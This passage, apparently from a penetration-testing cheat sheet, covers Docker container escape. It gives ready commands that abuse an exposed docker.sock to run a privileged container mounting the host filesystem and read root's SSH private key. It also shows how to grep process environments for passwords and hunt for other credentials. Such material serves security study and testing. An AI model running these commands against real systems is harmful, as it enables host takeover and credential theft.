  #### 6.2 List active containers via socket

  ```bash
  ./docker -H unix:///app/docker.sock ps
  ```

  #### 6.3 Run a new privileged container with host access

  ```bash
  ./docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
  ```

  #### 6.4 Connect to the new container

  ```bash
  ./docker -H unix:///app/docker.sock exec -it <container-id> /bin/bash
  ```

  Now you can:

  ```bash
  cat /hostsystem/root/.ssh/id_rsa
  ```

  ---

  ### 7. If you find exposed ENV variables (user, password etc.)

  ```bash
  strings /proc/*/environ | grep -i pass
  ```

  Or inside the container:

  ```bash
  printenv
  ```

  ---

  ### 8. Other paths

  * Check `.bash_history`, `.ssh`, `config.json`, automated scripts etc.
  * Search dockerfiles and saved images with `docker image ls`
  * Use `docker inspect` to look for mounted directories

  ---

  ### Notes

  * Always try to exploit **mounted volumes first**, then `docker.sock`, then the `docker` group.
  * Privileged containers allow mounting the host `/`: this gives **full root access**.

  ---
  <a id="9.3-disk"></a>
  ## **Disk**
